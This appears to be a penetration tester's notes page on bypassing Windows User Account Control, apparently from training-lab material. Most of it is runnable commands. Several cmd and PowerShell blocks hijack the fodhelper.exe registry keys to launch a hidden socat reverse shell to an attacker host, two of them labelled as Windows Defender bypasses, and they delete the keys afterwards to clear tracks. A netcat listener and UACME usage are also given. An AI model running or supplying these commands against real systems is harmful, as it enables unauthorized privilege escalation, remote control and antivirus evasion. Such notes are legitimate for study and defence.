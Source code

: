 ## Meterpreter
- post/windows/gather/win_privs
- bypassuac
- search bypassuac

## Automated exploitation
https://github.com/hfiref0x/UACME

#### UACME-Akagi64.exe

`Usage: UACME-Akagi64.exe [Method] [Optional Parameteres to Execute]`

Methods

	33 	fodhelper.exe
	34 	DiskCleanup scheduled task
	70 	fodhelper.exe using CurVer registry key

## Auto elevates

For an application, some requirements need to be met to auto-elevate:
- The executable must be signed by the Windows Publisher
- The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/

Depending on the type of application, additional requirements may apply:
- Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use sigcheck, a tool provided as part of the Sysinternals suite.
### Auto Elevates examples
- **msconfig** (Tools -> Command Prompt)
- **azman.msc** (Help -> Help Topics -> View Source -> Open -> Find CMD -> Right Click -> Open)
- **fodhelper.exe**
- **mmc.exe** will auto elevate depending on the .msc snap-in that the user requests. Most of the .msc files included with Windows will auto elevate.
- Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. This list includes **pkgmgr.exe** and **spinstall.exe**, for example.
- COM objects can also request auto-elevation by configuring some registry keys (https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker).

#### FodHelper
```
kali@kali $ nc -lvp 4444

C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
C:\> reg add %REG_KEY% /d %CMD% /f

C:\> fodhelper.exe

C:\> reg delete HKCU\Software\Classes\ms-settings\ /f #Clear tracks
```

##### Bypass Windows Defender 1

```
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe

C:\> reg delete HKCU\Software\Classes\ms-settings\ /f #Clear tracks
```

##### Bypass Windows Defender 2
**CMD**
```
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

C:\> fodhelper.exe

C:\> reg delete "HKCU\Software\Classes\.thm\" /f
C:\> reg delete "HKCU\Software\Classes\ms-settings\" /f
```

**Powershell**
```
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

### Always Notifty bypass

Check [[Disk Cleanup]]

## Other Techniques

Should you be interested in learning more techniques, the following resources are available:

- UACME github repository (https://github.com/hfiref0x/UACME)
- Bypassing UAC with mock folders and DLL hijacking (https://www.bleepingcomputer.com/news/security/bypassing-windows-10-uac-with-mock-folders-and-dll-hijacking/)
- UAC bypass techniques detection strategies 
- Reading your way around UAC (https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)